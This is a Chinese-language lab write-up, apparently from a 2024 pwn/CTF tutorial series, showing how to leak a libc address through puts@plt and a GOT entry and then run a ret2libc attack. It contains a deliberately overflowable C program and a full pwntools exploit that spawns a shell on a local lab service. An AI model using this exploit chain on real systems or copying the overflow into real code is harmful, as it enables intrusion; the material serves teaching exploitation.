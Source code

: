 ```yaml
---
title: "Day16－PLT to Libc"
date: 2024-09-30
draft: false
tags: ["iron-man-2024", "pwn", "2024"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

昨天我們示範了如何在沒有拿到 libc base 且程式是動態鏈結的情況下，透過 PLT 拿到 shell。不過那是因為程式一開始就有呼叫一次 `system` 函式，使得在編譯過程中產生了 GOT 和 PLT。如果沒有呼叫過該函式，是不是就無法被攻擊了呢？其實不是，因為我們可以透過 PLT 和 GOT 嘗試取得程式中的 libc base，並進行 ret2libc 攻擊。

## plt & got leak libc

如之前所提，GOT 會存儲外部函式的地址。即便我們不知道具體的 libc base，也可以將某些函式的 GOT 地址作為參數，傳遞給可以輸出資訊的函式，如 `puts`，來洩露 libc 地址並計算出 libc base。具體上傳遞參數的過程會像這樣：`puts(got_address)`。

這裡需要注意，若程式的 RELRO 是 Partial，我們需要函式的地址被解析完成後才能使用。有些讀者可能會問：既然我們不知道 libc base，那要如何呼叫 `puts` 呢？實際上，我們可以直接呼叫 PLT，因為 PLT 會自動從 GOT 中取出地址，也就是 libc 內部的函式地址。如此一來，我們就能成功呼叫 `puts` 並取得 libc base，進而進行簡單的 ret2libc 攻擊。

## Lab

查看以下原始碼：

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void pop_rdi(){
    __asm__("pop %rdi; ret;");
}

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("Leave a message: ");
    read(0, message, 0x100);
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/ret2plt_adv.c -o ./ret2plt_adv/share/ret2plt_adv -fno-stack-protector -no-pie
```

## writeup

這次的程式與前幾天的不同，分析後我們發現有一個 `read` 的 overflow，可以用來控制程式的執行流。不過因為是動態鏈結，gadgets 可能不足以構造完整的 ROP chain，所以我們需要從 libc 中尋找 gadgets。然而，要使用 libc，必須先泄露 libc base，但程式中沒有像格式化字串或 out-of-bounds (OOB) 等可直接泄露 libc 的漏洞。幸運的是，我們可以控制程式的執行流，並且程式內有 `puts` 函式，因此我們可以將某個函式的 GOT 地址作為參數傳入 `puts`，取得該函式的 libc 地址，進而計算出 libc base。

有了 libc base 後，我們可以再一次輸入並觸發 overflow，完成 ret2libc 攻擊。值得一提的是，我特地加了一個 `pop rdi; ret`，以便傳遞參數。

所以我們要確認以下資訊

- `puts` 的 PLT 地址
- 已被解析的某個函式的 GOT 地址
- `main` 的地址（泄露 libc 後返回重新輸入）

這些資訊可以用 `objdump` 輕鬆找出。

![image](/images/iron2024/day16_image1.png)

我們來測試一下是否能成功泄露 libc 地址，並接上 gdb 計算 offset。

在測試之前，因為要針對 libc，所以需要更換 libc，具體操作可參照[Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126)

需要控制流的 padding 為 `0x10+0x8=0x18`。

![image](/images/iron2024/day16_image2.png)

接下來，使用以下 script 進行測試：

```python
from pwn import *

r = process('./ret2plt_adv')
context.terminal = ['tmux','splitw','-h']
gdb.attach(r)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00'))
print(hex(libc))
r.interactive()
```

我們可以成功泄露一些資訊，並確認 offset 為 `0x815f0`。

![image](/images/iron2024/day16_image3.png)

![image](/images/iron2024/day16_image4.png)

接下來，將泄露到的地址減去 `0x815f0` 來測試，發現確實成功泄露到 libc base。

![image](/images/iron2024/day16_image5.png)

由於程式最後接回了 `main`，因此有再次輸入的機會，此時就可以進行 ret2libc，具體步驟可參考 [Day13－How to change libc & ret2libc](https://ithelp.ithome.com.tw/articles/10359126) 的步驟

完整 exploit：

```python
from pwn import *

# r = process('../ret2plt_adv/share/ret2plt_adv')
r = remote('127.0.0.1',10008)
setvbuf_got = 0x404010
puts_plt = 0x0000000000401030
pop_rdi = 0x000000000040114a
main = 0x00000000040114f
payload = b'A' * (0x10 + 8) + p64(pop_rdi) + p64(setvbuf_got) + p64(puts_plt) + p64(main)
r.sendlineafter('Leave a message: ', payload)
libc = u64(r.recvuntil(b'\x7f').strip().ljust(8, b'\x00')) - 0x815f0
log.info('Libc: ' + hex(libc))
system = libc + 0x50d70
bin_sh = libc + 0x1d8678
ret = pop_rdi + 1
payload = b'A' * (0x10 + 8) + p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)
r.sendlineafter('Leave a message: ', payload)
r.interactive()
```

solved！！

![image](/images/iron2024/day16_image6.png)
